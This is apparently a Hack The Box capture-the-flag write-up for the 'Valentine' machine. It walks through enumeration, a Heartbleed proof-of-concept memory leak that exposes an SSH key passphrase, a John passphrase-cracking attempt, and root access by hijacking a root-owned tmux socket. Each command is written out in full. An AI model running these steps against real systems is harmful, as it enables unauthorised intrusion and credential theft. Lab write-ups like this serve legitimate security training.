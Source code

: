 ```yaml
---
layout: single
title: Valentine Writeup
date: '2020-05-01 15:51:21'
tags:
- hack-the-box
classes: wide
sidebar:
  - title: "Difficulty: Easy"
    image: /images/posts/2020/2020-05-01-valentine-writeup/valentine-6614854.png
    text: "https://app.hackthebox.eu/machines/127"
typora-copy-images-to: ../../images/posts/2020/${filename}/
---
```



A good example of how dangerous a commonly exploited vulnerability is.…

## Enumeration

Autorecon turned up the following ports
```
22/tcp open ssh syn-ack ttl 63 OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
80/tcp open http syn-ack ttl 63 Apache httpd 2.2.22 ((Ubuntu))
443/tcp open ssl/http syn-ack ttl 63 Apache httpd 2.2.22 ((Ubuntu))
```

While I waited for the rest of the tests to complete I had a quick look at the website which just displayed an image. Given nothing seemed immediately obvious I started up `gobuster` to see if any interesting directories existed.
```bash
    bob@b0b:~/htb/valentine$ gobuster dir -u 10.10.10.79 -w /usr/share/dirb/wordlists/common.txt 
    ===============================================================
    Gobuster v3.0.1
    by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
    ===============================================================
    [+] Url: http://10.10.10.79
    [+] Threads: 10
    [+] Wordlist: /usr/share/dirb/wordlists/common.txt
    [+] Status codes: 200,204,301,302,307,401,403
    [+] User Agent: gobuster/3.0.1
    [+] Timeout: 10s
    ===============================================================
    2020/05/01 12:56:09 Starting gobuster
    ===============================================================
    /.hta (Status: 403)
    /.htaccess (Status: 403)
    /.htpasswd (Status: 403)
    /cgi-bin/ (Status: 403)
    /decode (Status: 200)
    /dev (Status: 301)
    /encode (Status: 200)
    /index (Status: 200)
    /index.php (Status: 200)
    /server-status (Status: 403)
    ===============================================================
    2020/05/01 12:56:53 Finished
    ===============================================================
```
From the above we can see `/decode`, `/encode` and `/dev` might be interesting.

I took a look at `/dev` and found _hype\_key_ and _notes.txt_. _notes.txt_ had the following content

    To do:
    
    1) Coffee.
    2) Research.
    3) Fix decoder/encoder before going live.
    4) Make sure encoding/decoding is only done client-side.
    5) Don't use the decoder/encoder until any of this is done.
    6) Find a better way to take notes.

Which hints at the encode/decode paths we found earlier. hype\_key looked interesting and downloading it revealed a hex-encoded file. I converted this as follows:

    cat hype_key |xxd -r -p
    -----BEGIN RSA PRIVATE KEY-----
    Proc-Type: 4,ENCRYPTED
    DEK-Info: AES-128-CBC,AEB88C140F69BF2074788DE24AE48D46
    <snip>

Okay, an ssh key. The `Proc-Type: 4,ENCRYPTED` means that a passphrase will be needed though, so there is more work to do.

At this point I quickly ran John over the key to see if I could get the passphrase

```bash
/usr/share/john/ssh2john.py hype.rsa > hype.john
john --wordlist=/usr/share/wordlists/rockyou.txt --format=SSH hype.john 
```

Usually CTF challenges uses a passphrase from the rockyou list as the point isn't to bore you waiting for a hash to be bruteforced. This didn't turn up anything so I looked at other avenues.

The full nmap output had the following interesting output

    | ssl-heartbleed: 
    | VULNERABLE:
    | The Heartbleed Bug is a serious vulnerability in the popular OpenSSL cryptographic software library. It allows for stealing information intended to be protected by SSL/TLS encryption.
    | State: VULNERABLE

Which I guess makes sense given the name of the box!

## Initial exploitation

It's pretty easy to find a [Proof of Concept](https://github.com/sensepost/heartbleed-poc) for this as it's pretty old. Metasploit also has a module for it. We can grab this and run it like so

```bash
python heartbleed-poc.py -n 200 -q 10.10.10.79
```

The `-n 200` is the number of heartbeats to send, the more you send the more memory you get back. The `-q` is not tell it not to write the dump to stdout. I did originally try this with the default number of heartbeats (1) but didn't get anything useful.

After letting this run you can then do a `strings dump.bin |less` to look for goodies.

Something that is apparent is:

    0.1/decode.php
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 42
    $text=aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==)

If we take `aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==` and base64 decode it

```bash
echo aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg== |base64 -d
heartbleedbelievethehype
```

We get something that looks like a passphrase. Trying to use this with ssh gets us a session as the hype user and we can quickly grab user.txt from the Desktop directory.

## Escalation

As usual I start with a quick nose around the home directory of my current user account and immediately notice that .bash\_history has something in it. This is usually redirected to /dev/null in CTFs.

This included

```bash
tmux -L dev_sess 
tmux a -t dev_sess 
tmux --help
tmux -S /.devs/dev_sess
```

tmux is a terminal multiplexor, a bit like screen, so you can have multiple sessions running in the background. Looking at /.devs/ we see

```bash
srw-rw---- 1 root hype 0 May 1 03:10 dev_sess
```

This is a socket file for tmux, and the _-S_ option being used earlier was telling tmux to use this instead of the defaults it would normally use. The socket is owned by root and set _suid_ so we might get a root session if we connect.

Running `tmux -S /.devs/dev_sess` does instead give us a root shell, and we can grab `/root/root.txt`

